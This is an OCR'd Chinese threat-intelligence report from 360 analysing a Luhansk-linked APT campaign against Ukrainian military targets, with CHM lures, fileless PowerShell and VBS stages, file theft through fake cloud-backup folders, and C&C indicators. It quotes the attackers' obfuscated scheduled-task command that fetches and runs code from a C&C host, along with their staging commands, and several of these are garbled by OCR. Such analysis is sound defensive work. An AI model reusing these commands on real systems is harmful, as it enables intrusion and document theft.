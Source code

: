 # 卢甘斯克组织针对乌克兰的最新定向攻击活动分析  

原创 高级威胁研究院360威胁情报中心昨天  

## 概述  

卢甘斯克位于乌克兰东部，原名伏罗希洛夫格勒，是乌克兰最东部一个州卢甘斯克州的首府。其紧邻俄罗斯，和其他许多乌克兰东部州一样，该地区主要讲俄语。2014年4月28日，乌克兰卢甘斯克的集会者宣布成立"卢甘斯克人民共和国"，并向俄罗斯等14个国家提出了承认其独立的要求，目前尚未得到乌克兰及国际社会承认。  

2019年初，国外安全厂商披露了一起疑似卢甘斯克背景的APT组织针对乌克兰政府的定向攻击活动，根据相关报告分析该组织的攻击活动至少可以追溯到2014年，曾大量通过网络钓鱼、水坑攻击等方式针对乌克兰政府机构进行攻击，在其过去的攻击活动中曾使用过开源QuasarRAT和VERMIN等恶意软件，捕获目标的音频和视频，窃取密码，获取机密文件等等。  

近日，360安全大脑监测到卢甘斯克组织针对乌克兰军事目标的最新攻击活动，通过360高级威胁研究院的深入分析溯源，发现此次攻击活动采用了新的诱饵文档、恶意脚本荷载，同时发现该组织疑似伪装成云盘备份的方式进行攻击窃密。  

## 攻击活动分析  

卢甘斯克组织向目标投递了大量包含恶意CHM文件的ZIP压缩包，诱饵文件名称都使用了乌克兰语，如名称为 O1_IHΦ.npo_BMgB.nopy山.zip（翻译：01关于检测的信息.zip）ZIP压缩包，包含AoAaTok1.chm（翻译：插件1.chm）的chm恶意文件。  

在目标打开chm恶意文件后，恶意程序会通过powershel和vbs恶意脚本文件进行大量的文件窃取操作和植入木马行为。  

![](https://cdn-mineru.openxlab.org.cn/extract/553bd814-c38b-4f08-963f-939e9e007a7b/17233e833e8c32443c18e151158b0642a0877f610ba5eb516397495b92b91505.jpg)  

·第一阶段，攻击程序会调用schtasks创建伪装adobe的powershell计划任务。·第二阶段，计划任务启动后powershel会定期向C&C通信，获得下一阶段的vbs脚本并创建vbs文件的计划任务。  

■第三阶段，vbs文件定期读取指定注册表键值，并利用rococopy将后缀名称是\*.rtf\*.txt\*.z00 \*.z01 \*.z02 \*.z03 \*.pdf \*.zip \*.rar \*.7z \*.doc \*.docx \*.docm \*.xls \*.xlsx \*.ppt \*.pptx \*.xlsm \*jpg\*jpeg\*.cdr拉取到伪装的云盘目录，然后进行文件窃取。   
■第四阶段，通过csc命令实时编译C#代码安装持久化的loader后门程序  

### 攻击过程分析  

卢甘斯克组织的整个攻击过程都使用了典型的无文件脚本攻击方式，所有攻击动作都通过C&C下发的自定义脚本在内存中执行，大大提高了安全软件的查杀和安全人员的追踪分析难度。通过360安全大脑的遥测我们发现了该组织以下的主要攻击行为：  

#### 通过CHM文档执行计划任意命令  

恶意压缩包文件内包含了恶意的chm文档  

![](https://cdn-mineru.openxlab.org.cn/extract/553bd814-c38b-4f08-963f-939e9e007a7b/7f14db4d19e43ec7b719e03bdd84176ff7e86557375067f060cae47dcda1865e.jpg)  

恶意的chm文件打开后会创建计划任务，伪装成名字为adobeperflog的计划任务，以避免引起目标的怀疑，计划任务会定期通过powershell命令从C&C下发的自定义恶意脚本执行。  

schtasks.exe /create /sc minute /mo 90 -f /tn "AdobePerflog" /tr "powershell -w h -noni $\$0$ shelliD; $\$2$ $=$ New-Object -ComObject MsXml2.ServerXmlHttp;\$z.Open("'GET",""https:/wOx."" $^{\prime}+\$0[16]+$ "ost" +"/n ews"",\$false);\$z.Send(); $\$0$ (-Join(GI Variable:\M\*mD\*t).Name)[9,11,21]));&( $\$0$ (&(\$a)\$z.ResponseText) "  

#### 通过Vbs脚本执行自定义命令  

我们观测到计划任务会从C&C下载的Vbs脚本，通过传入的参数执行任意命令。  

Set objShell $=$ Create0bject("Shell.Application") Set objwshShell $=$ WScript.CreateObject("WScript.Shell" Set objArgs $\rightleftharpoons$ Wscript.Arguments  

If (wScript.Arguments.Count $>=1$ Then   
ReDim args(wscript.Arguments.Count-1) For i $=0$ To WScript.Arguments.Count-1 If InStr(WScript.Arguments(i)，"")> 0 Then args(i) $\equiv$ Chr(34) & wScript.Arguments（i) & Chr Else args(i) $=$ WScript.Arguments(i) EndIf Next objwshShell.Run Join(args, ""),0   
End If  

其中我们发现部分命令会读取特定注册表的键值，目前无法确定该动作意义，疑似是攻击者对目标自定义操作。  

%UserProfile%\AppData\Roaming\Adobe\Version\update.vbs powershell -NoP -Nonl -w hidden iEx((Get -ItemProperty -Path 'Registry:HKEY_CURRENT_USER\Software\AppDataLow\Software\463' -Name 'Hil e').Hile)  

#### 利用rococopy和云盘备份窃取文件  

该组织会使用rococopy命令拷贝中招用户所有磁盘路径下，包含\*.rtf\*.txt\*.z00\*.z01\*.z02\*.z03\*.pdf \*.zip \*.rar \*.7z \*.doc \*.docx \*.docm \*.xls \*.xlsx \*ppt \*.pptx \*.xlsm \*jpg \*jpeg \*.cdr后缀的文件至SugarSync和OneDrive网络硬盘目录，疑似通过伪装成云盘备份的方式窃取机密文件。  

%UserProfile%\AppData\Roaming\SugarSync\CloudBackup \*.rtf \*.txt \*.z00 \*.z01 \*.z02 \*.z03 \*.pdf \*.zip \*.r ar \*.7z \*.doc \*.docx \*.docm \*.xls \*xlsx \*.ppt \*.pptx \*.xlsm \*jpg \*jpeg \*.cdr /MAX:20971520 /MAXAGE:31 /s /DCOPY:T  

%UserProfile%\\AppData\\Roaming\\OneDrive\\Backup \*.rtf \*.txt \*.z00 \*.z01 \*.z02 \*.z03 \*.pdf \*.zip \*.rar \*.7z \*.doc \*.docx \* xls \*xlsx \*.ppt \*.pptx \* xlsm \*jpeg \*.cdr /MAX:10485760 /MAXAGE:31 /s /DCOPY:T  

#### 通过csc命令编译执行c#Loader  

最终我们发现了该组织的一些使用csc命令进行的攻击动作  

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\Admin\AppData\LocalTemp\blupy4tn\blupy4tn.cmdline  

#### 攻击者将恶意荷载的C#源代码释放到临时文件目录进行编译  

![](https://cdn-mineru.openxlab.org.cn/extract/553bd814-c38b-4f08-963f-939e9e007a7b/0c9b62e70e81edce9b2384655beec4141e4c3462a36956808a14f60f0b23df5a.jpg)  

#### 恶意荷载的Loader程序会将自身注册为自启动程序  

<html><body><table><tr><td colspan="3">TFEhCdrIYqkCXiDOma TFEhCdrIYqKCXIDOuriver(O.o.o.o)</td></tr><tr><td colspan="3"></td></tr><tr><td colspan="3">馬部亮量</td></tr><tr><td>名称</td><td></td><td>美型</td></tr><tr><td>executingAssembly</td><td>(TFEhCdrIYqKCxiDO.river,Version=0.o.0.o,Culture=neutral,PublicKeyToken=rull)</td><td>System.Reflec</td></tr><tr><td>resource</td><td>byte[0x00005E00]</td><td>byte]</td></tr><tr><td>山</td><td>"True"</td><td>string</td></tr><tr><td>a2</td><td>"Folder'</td><td>string</td></tr><tr><td>name</td><td>"startupname"</td><td>string</td></tr><tr><td></td><td>'True"</td><td>string</td></tr><tr><td></td><td>'CalUsersiivAdministrator"</td><td>string</td></tr><tr><td>42</td><td>"Chrome.exe"</td><td>string</td></tr><tr><td>a4</td><td>"False"</td><td>string</td></tr><tr><td>value</td><td>pasAeppn.</td><td>string</td></tr><tr><td>a5</td><td>"None"</td><td>string</td></tr><tr><td>a6</td><td></td><td>string</td></tr><tr><td>a7</td><td>""bind!"</td><td>string</td></tr><tr><td>a8</td><td>mas puige.</td><td>string</td></tr><tr><td>location</td><td>"Ci\UsersWAdministrator\Desktop\Oc.exe"</td><td>string</td></tr><tr><td>text</td><td>"CiWUsersWAdministratoriChrome.exe"</td><td>string</td></tr><tr><td>executingAssembly2</td><td>null</td><td>SystemReflec</td></tr><tr><td>resource_2</td><td>null</td><td>byte</td></tr><tr><td colspan="2"></td><td></td></tr><tr><td colspan="2">h1</td><td>编曲/混音</td></tr></table></body></html>  

Loader通过regasm执行编译到临时文件夹下的C#dll荷载  

![](https://cdn-mineru.openxlab.org.cn/extract/553bd814-c38b-4f08-963f-939e9e007a7b/d151a2d0e7c71d2aca325d2c650d07d1027835e819e56803d57482a1bdb67e06.jpg)  

## 关联分析  

此次攻击活动中卢甘斯克组织仍然使用了部分被曝光披露的基础设施，如unian[.]pw和78.140.167.89已经被披露超过一年，但该组织仍未放弃使用。  

## 总结  

通过报告可以看到卢甘斯克组织在持续更新迭代网络武器，重点使用脚本类的无文件攻击方式，提高了安全厂商的发现和分析难度。同时该组织疑似通过云盘备份的方式窃取机密文件，此类攻击方式也加大了网络异常流量识别的难度。地缘政治问题发起的APT攻击仍然需要引起我们的重点关注，此类攻击目标明确，且攻击持续性较强，攻击者会不断迭代攻击技术，相关的政府机构需要提高警惕。  

## 附录IOC  

C&C   
176.119.2.122:443   
87.251.77.19:443   
inforesist.press/blog/publish/   
mytv.host/news   
depo.host/blog/publish/   
wOx.host/news  

# TEAM INTRODUCTION  

# 360高级威胁研究院  

360高级威胁研究院是360政企安全集团的核心能力支持部门，由360资深安全专家组成，专注于高级威胁的发现、防御、处置和研究，曾在全球范围内率先捕获双杀、双星、噩梦公式等多起业界知名的0day在野攻击，独家披露多个国家级APT组织的高级行动，赢得业内外的广泛认可，为360保障国家网络安全提供有力支撑。  